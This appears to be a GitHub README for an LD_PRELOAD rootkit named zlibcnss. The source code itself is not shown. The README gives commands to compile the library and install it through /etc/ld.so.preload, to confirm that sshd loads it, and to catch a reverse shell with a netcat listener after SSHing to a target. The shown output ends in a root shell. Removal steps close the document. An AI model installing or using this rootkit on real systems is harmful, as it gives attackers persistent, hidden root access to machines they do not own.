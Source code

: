 


Compile and install:
```bash
 gcc zlibcnss.c -o zlibcnss.so -fPIC -shared -ldl -D_GNU_SOURCE
 cp zlibcnss.so /lib/
 echo "/lib/zlibcnss.so" > /etc/ld.so.preload
```



### Verify installation
You can check if the rootkit is installed by running```ldd``` and checking that your malicious library gets loaded.
```bash
ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/zlibcnss.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/zlibcnss.so
```

## Usage
1. Install as above
2. Start a listener to receive reverse shell
```bash
nc -lvnp 9001
```
3. SSH to the target machine. A shell should spawn on your listener.
It (almost) always doens't work the first time, so SSH twice.
```bash
ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
```
```bash
nc -lvnp 9001
[...]
Connection received
[+] spawning shell... 
id
uid=0(root) gid=0(root) groups=0(root)
```

## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
rm /etc/ld.so.preload
rm /lib/x86_64-linux-gnu/zlibcnss.so
```
